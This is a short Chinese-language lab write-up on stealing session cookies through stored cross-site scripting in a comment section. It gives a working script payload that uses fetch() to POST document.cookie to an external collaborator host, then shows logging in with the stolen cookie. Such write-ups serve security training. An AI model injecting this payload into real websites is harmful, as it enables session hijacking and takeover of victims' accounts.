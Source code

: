 ### 利用跨站脚本窃取 cookie

窃取 cookie 是利用 XSS 的一种传统方式。大多数 Web 应用程序使用 Cookie 进行会话处理。您可以利用跨站点脚本漏洞将受害者的 cookie 发送到您自己的域，然后手动将 cookie 注入浏览器并模拟受害者。

在实践中，此方法具有一些明显的局限性：

- 受害者可能未登录。
- 许多应用程序使用该标志向 JavaScript 隐藏其 Cookie。`HttpOnly`
- 会话可能会被锁定到其他用户的 IP 地址。
- 会话可能会在您能够劫持它之前超时。

### 实验

评论区存在存储型 xss：

![image-20250601172326381](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250601172326381.png)



payload：

```
<script>
fetch('https://z77cm36ee8bfiv8yagoveedxzo5fthh6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![image-20250601172611086](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250601172611086.png)

使用 cookie 登录：

![image-20250601172706775](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250601172706775.png)